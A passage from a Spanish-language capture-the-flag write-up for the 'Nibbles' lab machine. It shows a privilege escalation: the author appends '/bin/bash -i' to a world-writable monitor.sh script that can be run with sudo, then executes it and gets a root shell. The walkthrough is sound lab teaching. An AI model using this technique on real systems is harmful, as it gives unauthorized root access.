 --------

Bien, descomprime el archivo:
```bash
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ cd personal/stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Una vez descomprimido, nos metemos a las carpetas hasta el script **monitor.sh**:
```bash
nibbler@Nibbles:/home/nibbler$ cd personal/stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
Ahora sí, probemos las 2 formas con el archivo descomprimido. Pero antes, entra a ese archivo y borra o comenta el comando **clear** que está casi al principio.

<br>

<h3 id="PostForma1">Forma 1: Convertirse en Root con /bin/bash</h3>

Para esto, vamos a meter el siguiente comando en el script:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/bash -i" >> monitor.sh 
```
Después, ejecutamos el archivo con el comando **sudo**:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
root@Nibbles:/home/nibbler/personal/stuff#
```
Y ya somos **Root**, lo puedes comprobar, pero en el **PATH** lo dice:
```bash
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

Esta forma, yo no la conocía, la encontré de aquí:
* https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d

<br>

